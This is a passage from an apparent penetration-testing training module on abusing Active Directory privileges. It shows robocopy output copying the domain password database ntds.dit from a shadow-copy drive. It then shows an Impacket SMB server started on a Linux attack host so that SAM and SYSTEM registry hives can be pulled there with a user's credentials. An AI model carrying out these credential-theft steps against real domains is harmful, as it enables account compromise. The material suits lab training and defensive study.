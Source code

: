 ```cmd-session

------------------------------------------------------------------------------

                           1    P:\Windows\ntds\
100%        New File              44.0 m        ntds.dit

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   44.00 m   44.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00

   Speed :           542792282 Bytes/sec.
   Speed :           31058.823 MegaBytes/min.
   Ended : Tuesday, May 9, 2023 8:29:02 PM

```

## Abusing the Newly Gained Privileges from Linux

In Linux, we would not have to worry about authentication since every interaction of our tools is a new connection. However, suppose we use `ccache` or similar forms of Kerberos authentication with files. In that case, we must re-authenticate and generate new files to apply those new privileges to our new session. For more information, refer to the `Pass the Ticket (PtT) from Linux` section of the `Password Attacks` module.

To save the registry hive from a Linux machine, we will create an SMB share folder and save the files there.

#### Starting the SMB Server

```shell
sudo smbserver.py -smb2support share .

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Now, we can use [reg.py](https://github.com/fortra/impacket/blob/master/examples/reg.py) from [Impacket](https://github.com/fortra/impacket/) to retrieve the registry hives from Linux using the credentials of `Pedro`:

#### Retrieving the SAM & SYSTEM Registry Hives with reg.py

